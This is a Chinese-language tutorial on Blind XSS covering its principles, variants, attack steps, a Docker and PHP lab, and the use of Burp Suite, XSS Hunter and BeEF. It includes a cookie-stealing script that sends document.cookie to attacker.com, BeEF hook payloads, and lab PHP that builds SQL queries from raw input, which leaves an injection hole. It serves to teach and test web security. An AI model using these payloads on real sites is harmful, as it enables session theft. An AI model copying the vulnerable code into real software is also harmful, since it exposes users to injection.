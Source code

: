 # Blind XSS攻击检测的基本概念

## 1. 引言

Blind XSS（盲跨站脚本攻击）是一种特殊类型的跨站脚本攻击（XSS），其特点是攻击者无法直接观察到攻击结果。与传统的XSS攻击不同，Blind XSS攻击的payload会在受害者的浏览器中执行，但攻击者无法直接看到执行结果。这种攻击通常发生在应用程序的后台管理界面、日志系统或其他需要用户交互的场景中。

## 2. 基本原理

### 2.1 XSS攻击回顾

XSS攻击的核心原理是将恶意脚本注入到网页中，当其他用户访问该页面时，恶意脚本会在他们的浏览器中执行。XSS攻击通常分为三种类型：

1. **反射型XSS**：恶意脚本通过URL参数注入，服务器将参数内容直接返回给用户。
2. **存储型XSS**：恶意脚本被存储在服务器端（如数据库），当其他用户访问包含该脚本的页面时，脚本被执行。
3. **DOM型XSS**：恶意脚本通过修改页面的DOM结构来执行，不涉及服务器端的响应。

### 2.2 Blind XSS的特点

Blind XSS是存储型XSS的一种特殊形式，其特点在于：

- **延迟性**：攻击者注入的payload不会立即执行，而是在特定的用户交互或系统操作中被触发。
- **不可见性**：攻击者无法直接观察到payload的执行结果，通常需要通过日志、邮件或其他间接方式获取执行结果。

### 2.3 底层实现机制

Blind XSS的实现机制与存储型XSS类似，攻击者将恶意脚本注入到应用程序的某个输入点（如评论框、日志记录等），该脚本被存储在服务器端。当管理员或其他用户查看相关页面时，脚本被执行。由于攻击者无法直接访问这些页面，因此需要通过间接方式获取执行结果。

## 3. 变种与高级利用技巧

### 3.1 基于日志的Blind XSS

攻击者将恶意脚本注入到应用程序的日志系统中，当管理员查看日志时，脚本被执行。攻击者可以通过日志中的信息（如IP地址、时间戳等）来追踪攻击结果。

### 3.2 基于邮件的Blind XSS

攻击者将恶意脚本注入到邮件内容或邮件头中，当收件人查看邮件时，脚本被执行。攻击者可以通过邮件中的信息（如发件人、主题等）来追踪攻击结果。

### 3.3 基于WebSocket的Blind XSS

攻击者将恶意脚本注入到WebSocket通信中，当客户端与服务器建立WebSocket连接时，脚本被执行。攻击者可以通过WebSocket通信中的信息来追踪攻击结果。

### 3.4 基于DOM的Blind XSS

攻击者将恶意脚本注入到页面的DOM结构中，当用户与页面交互时，脚本被执行。攻击者可以通过DOM中的信息来追踪攻击结果。

## 4. 攻击步骤与实验环境搭建指南

### 4.1 攻击步骤

1. **识别输入点**：寻找应用程序中可以注入恶意脚本的输入点，如评论框、日志记录、邮件内容等。
2. **注入payload**：将恶意脚本注入到输入点中，确保脚本能够被存储在服务器端。
3. **触发执行**：等待管理员或其他用户查看相关页面，触发脚本执行。
4. **获取结果**：通过日志、邮件或其他间接方式获取脚本执行结果。

### 4.2 实验环境搭建指南

为了模拟Blind XSS攻击，可以搭建一个简单的Web应用程序，包含以下功能：

1. **评论系统**：用户可以提交评论，评论内容被存储在数据库中。
2. **日志系统**：记录用户的访问日志，日志内容被存储在数据库中。
3. **管理界面**：管理员可以查看评论和日志。

#### 4.2.1 使用Docker搭建实验环境

```bash
# 拉取MySQL镜像
docker pull mysql:5.7

# 运行MySQL容器
docker run --name mysql -e MYSQL_ROOT_PASSWORD=password -d mysql:5.7

# 拉取PHP镜像
docker pull php:7.4-apache

# 运行PHP容器
docker run --name php-app --link mysql:mysql -v $(pwd):/var/www/html -d php:7.4-apache
```

#### 4.2.2 创建数据库和表

```sql
CREATE DATABASE blind_xss;
USE blind_xss;

CREATE TABLE comments (
    id INT AUTO_INCREMENT PRIMARY KEY,
    content TEXT
);

CREATE TABLE logs (
    id INT AUTO_INCREMENT PRIMARY KEY,
    log TEXT
);
```

#### 4.2.3 编写PHP代码

```php
// 连接数据库
$mysqli = new mysqli("mysql", "root", "password", "blind_xss");

// 提交评论
if (isset($_POST['comment'])) {
    $comment = $_POST['comment'];
    $mysqli->query("INSERT INTO comments (content) VALUES ('$comment')");
}

// 查看评论
$comments = $mysqli->query("SELECT * FROM comments");

// 记录日志
$log = $_SERVER['REMOTE_ADDR'] . " - " . date("Y-m-d H:i:s");
$mysqli->query("INSERT INTO logs (log) VALUES ('$log')");

// 查看日志
$logs = $mysqli->query("SELECT * FROM logs");
```

#### 4.2.4 注入payload

在评论框中注入以下payload：

```html
<script>fetch('http://attacker.com/steal?cookie=' + document.cookie);</script>
```

#### 4.2.5 触发执行

当管理员查看评论或日志时，脚本将被执行，攻击者可以通过`http://attacker.com/steal`获取管理员的cookie。

## 5. 实际命令、代码或工具使用说明

### 5.1 使用Burp Suite进行Blind XSS检测

1. **配置Burp Suite**：启动Burp Suite，配置浏览器代理。
2. **扫描目标**：使用Burp Suite的Scanner功能扫描目标应用程序，寻找潜在的Blind XSS漏洞。
3. **手动测试**：在Burp Suite的Repeater模块中手动测试输入点，注入payload并观察响应。

### 5.2 使用XSS Hunter进行Blind XSS检测

1. **注册XSS Hunter**：访问https://xsshunter.com/，注册一个账户。
2. **生成payload**：在XSS Hunter中生成一个payload，如`<script src="//xsshunter.com/yourpayload"></script>`。
3. **注入payload**：将payload注入到目标应用程序的输入点中。
4. **查看结果**：在XSS Hunter的控制面板中查看payload的执行结果。

### 5.3 使用BeEF进行Blind XSS检测

1. **启动BeEF**：在终端中运行`beef`命令，启动BeEF框架。
2. **生成payload**：在BeEF的控制面板中生成一个payload，如`<script src="http://yourbeefserver/hook.js"></script>`。
3. **注入payload**：将payload注入到目标应用程序的输入点中。
4. **控制受害者**：在BeEF的控制面板中查看受害者的浏览器信息，执行命令。

## 6. 总结

Blind XSS攻击是一种隐蔽且危害性较大的攻击方式，攻击者通过注入恶意脚本并间接获取执行结果，可以窃取敏感信息、控制用户会话等。了解Blind XSS的基本原理、变种和检测方法，对于提高Web应用程序的安全性至关重要。通过搭建实验环境和使用相关工具，可以有效地检测和防御Blind XSS攻击。

---

*文档生成时间: 2025-03-11 16:24:07*
